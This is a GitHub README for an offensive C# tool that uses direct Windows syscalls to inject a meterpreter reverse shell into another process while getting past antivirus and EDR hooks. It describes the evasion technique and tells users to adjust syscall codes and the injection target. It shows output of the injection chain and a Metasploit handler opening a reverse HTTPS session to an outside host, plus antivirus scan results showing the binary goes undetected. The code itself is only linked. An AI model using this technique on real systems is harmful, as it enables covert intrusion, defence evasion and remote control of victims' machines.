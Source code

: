 # SysCalls
An example of using Windows System Calls (syscalls) in C# to inject a meterpreter shell.

# Introduction
This code is based upon the excellent [Red Team Tactics: Utilizing Syscalls in C#](https://jhalon.github.io/utilizing-syscalls-in-csharp-1/) primer by **Jack Halon**, explaining the use of 'System Calls in windows malware for post-exploitation activities, as well as for the bypassing of EDR or Endpoint Detection and Response'. I recommend reading it, it's not an easy subject, but well worth the effort!

Some anti-malware products, such as Bit Defender inject user mode hooks in `ntdll.dll` when new processes are created. This means that whenever APIs such as `NtCreateThreadEx` are called in `ntdll.dll` Bit Defender intercepts the call, does its scanning, then returns execution to the thread (or more likely if there is a meterpreter payload, spoils the fun and kills the process).

If we use syscalls directly we can avoid the hooks, and effectively bypassing the anti-malware scan.

# Codez
If you just want to dig in to the code, go here:

[Native.cs](https://github.com/plackyhacker/SysCalls/blob/main/SysCall/Native.cs) - Native imports/structs from Win32 APIS

[Syscalls.cs](https://github.com/plackyhacker/SysCalls/blob/main/SysCall/Syscalls.cs) - The sycall implementation.

[Program.cs](https://github.com/plackyhacker/SysCalls/blob/main/SysCall/Program.cs) - The main routine.


# Important
Syscall codes can and do change between operating systems. You must change the the codes in the [Syscalls class](https://github.com/plackyhacker/SysCalls/blob/main/SysCall/Syscalls.cs) to match those of your target.

And remember, the code looks for an instance of notepad to inject into, it is trivial to change this, or even spawn a surregate process to inject in to.

# Example
Execution of the code is shown below:

```
[+] Base Address of ntdll is 0x7FFE23450000
[+] Target PID is 40140
[+] Syscall NtOpenProcess on 40140
[+] Return, NTSTATUS=Success, hProcess=0x2F4
[+] Syscall NtAllocateVirtualMemory on 0x2F4
[+] Return, NTSTATUS=Success, baseAddress=0x1D2A9120000
[+] Syscall NtWriteVirtualMemory to 0x1D2A9120000
[+] Return, NTSTATUS=Success, bytesWritten=0x736
[+] Syscall NtProtectVirtualMemory on 0x1D2A9120000
[+] Return, NTSTATUS=Success
[+] Syscall NtCreateThreadEx to 0x1D2A9120000
[+] Return, NTSTATUS=Success, hThread=0x896
```

And the meterpreter shell:

```
msf6 exploit(multi/handler) > 
[*] Started HTTPS reverse handler on https://192.168.1.228:443
[*] https://192.168.1.228:443 handling request from 192.168.1.142; (UUID: bprg2hzm) Staging x64 payload (201308 bytes) ...
[*] Meterpreter session 1 opened (192.168.1.228:443 -> 192.168.1.142:58551) at 2021-10-05 12:53:47 +0100
```

# AV Scan Results

The binary was scanned using [antiscan.me](https://antiscan.me/scan/new/result?id=2kut9uVkyXQW) on 05/10/2021.

![AV Scan](https://github.com/plackyhacker/SysCalls/blob/main/Syscall_scan.png?raw=true)

# Notes

Tested with windows/x64/meterpreter/reverse_https on Windows 10 Pro (build 10.0.19042) with Defender.
